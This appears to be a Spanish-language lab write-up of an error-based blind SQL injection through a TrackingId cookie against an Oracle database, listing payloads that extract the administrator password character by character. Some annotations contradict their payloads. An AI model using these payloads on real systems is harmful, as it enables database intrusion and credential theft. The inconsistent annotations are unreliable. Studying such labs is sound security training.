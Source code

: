 La vulnerabilidad se encuentra en una cookie de seguimiento (**TrackingId**). La aplicación no muestra directamente los resultados de la consulta, pero sí muestra una respuesta distinta si se provoca un error en la ejecución de la consulta SQL.

Aprovechamos esto para:

- Confirmar que la consulta es vulnerable a inyección.
- Verificar que existe una tabla ‘**users**‘ y un usuario ‘**administrator**‘.
- Descubrir la longitud de la contraseña del administrador.
- Extraer la contraseña carácter por carácter, forzando errores solo cuando la condición evaluada es verdadera.

Para provocar errores intencionados, se usa la función ‘**TO_CHAR(1/0)**‘ (división por cero en Oracle), dentro de expresiones **‘CASE WHEN**‘ que evalúan condiciones booleanas. La idea es generar un error solo cuando la condición se cumple, lo que permite inferir información sin necesidad de ver los resultados directamente.

**Quédate con esto**: Aunque la aplicación no devuelva datos visibles ni mensajes directos, es posible extraer información sensible provocando errores intencionados y observando cómo responde el sistema. Este tipo de ataque es potente y silencioso.

----------

La cookie de session "TrackingId"  es vulnerable a SQLI

* Cookie: TrackingId=sS0Qz9nx8FBcjUMr'
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' order by 2-- -
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' order by 1-- -
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' union select NULL-- -
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr' union select NULL from dual-- -
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr'-- -
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr''
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr'||(select 'a' from dual)||' (True)
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr'||(select 'a' from dua)||' (False)

* Entramos al case when (1=1)
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr'||(select case when(1=1) then to_char(1/0) else '' end from dual)||' (500)
* Entramos al Else
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr'||(select case when(2=1) then to_char(1/0) else '' end from dual)||' (500)
* El codigo de estado 500 quiere decir que la condicion se cumple:
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr'||(select case when(1=1) then to_char(1/0) else '' end from users where username='administrator')||'
* Esto seria no valido con el status code 200 OK:
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr'||(select case when(1=1) then to_char(1/0) else '' end from users where username='test')||'

Para sacar la longitud de la contraseña:
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr'||(select case when length(password)=21 then to_char(1/0) else '' end from users where username='administrator')||'          (no cumple la condición y dará 200 OK)
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr'||(select case when length(password)=20 then to_char(1/0) else '' end from users where username='administrator')||'          (SI cumple la condición y dará 500 Internal Server Error)

Para obtener la contraseña del usuario admin, usarmos "substr"
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr'||(select case when substr(username,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||'     (es correcto porque el usuario admin empieza con 'a')
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr'||(select case when substr(username,2,1)='a' then to_char(1/0) else '' end from users where username='administrator')||'     (es correcto porque el usuario admin tiene en la segunda posicion la letra 'd')

Ahora nos podemos aprovechar del codigo de estado para saber cuando un caracter es correcto para obtener la contraseña del usuario administrador
* Cookie: TrackingId=sS0Qz9nx8FBcjUMr'||(select case when substr(password,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||'
* 

